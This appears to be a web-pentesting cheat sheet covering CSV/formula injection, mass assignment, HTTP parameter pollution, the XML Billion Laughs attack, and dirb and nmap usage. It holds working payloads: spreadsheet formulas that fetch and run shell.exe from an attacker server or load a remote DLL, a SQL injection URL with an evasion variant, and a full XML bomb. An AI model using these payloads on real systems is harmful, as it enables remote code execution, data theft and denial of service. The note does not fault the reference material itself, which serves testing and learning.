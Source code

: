 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: 
   
             http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: 

        http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    
 <h3>XML Billion Laugh Attack</h3>
 
 The Billion Laughs attack is a denial-of-service attack that targets XML parsers. The Billion Laughs attack is also known as an XML bomb, or more esoterically, the exponential entity expansion attack. A Billion Laughs attack can occur even when using well-formed XML and can also pass XML schema validation.

The vanilla Billion Laughs attack is illustrated in the XML file represented below.

            <?xml version="1.0"?>
            <!DOCTYPE lolz [
            <!ENTITY lol "lol">
            <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
            <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
            <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
            <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
            <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
            <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
            <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
            <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
            ]>
            <lolz>&lol9;</lolz>

Dirb
===

To perform directory search

     ./dirb http://www.test.org/ word_list.txt
    
To perform file name search with specific extension. Below mentioned example will check for files name with extensions .html and .asp

     ./dirb https://www.test.org/ common.txt -X .html,.asp
     
N-MAP
===

 To find out firewall IS active or not
 
            nmap -sA 192.168.0.1 
 
  Fast scan

          nmap -F 192.168.0.1  

   For udp ports scan

            nmap -sU 192.168.0.1 

  For specific port

            nmap -F 192.168.0.1 -p 47,49

   When firewall blocking the ping request

              nmap -F 192.168.0.1-pn

   To find host version & service

            nmap -sV 192.168.0.1




     
